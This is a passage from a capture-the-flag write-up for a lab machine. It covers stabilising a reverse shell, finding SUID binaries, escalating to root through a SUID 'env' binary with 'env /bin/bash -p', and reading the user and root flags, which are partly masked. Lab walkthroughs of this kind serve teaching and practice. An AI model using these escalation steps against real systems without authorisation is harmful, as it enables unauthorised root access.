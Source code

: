 Then press *Ctrl+Z* to get the process in background.

Now that you are in your machine execute the next command:

```bash
stty raw -echo;fg
```

Now write `reset xterm` and you should have a better looking shell but you still have to execute a few commands:

```bash
export TERM=xterm
export SHELL=bash
stty rows 45 columns 184
```

Make a `stty size` in your own shell to know the rows and columns.

### Privilege Escalation

Once with a stable shell and  as user `namelessone` we can read the `user.txt` flag at `/home/namelessone/user.txt`.

```bash
namelessone@anonymous:~$ cat /home/namelessone/user.txt 
90d******85815ff991e68******4740
```

Now we can begin with the **privilege escalation** phase, after a bit of research i checked the **SUID** binaries, i found that the `env` binary is **SUID**.

```bash
namelessone@anonymous:/$ find / -perm -4000 2>/dev/null

<REDACTED>

/usr/bin/env

<REDACTED>

```

Checking this binary at [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid), we can see that we can spawn a shell as `root` executing the following command.

```bash
namelessone@anonymous:/$ env /bin/bash -p
bash-4.4# whoami
root
```

Once as `root` we can read the `root.txt` flag at `/root/root.txt`.

```bash
bash-4.4# cat /root/root.txt
4d9******31a622a7ed10f******f363
```

---
## Final Thoughts
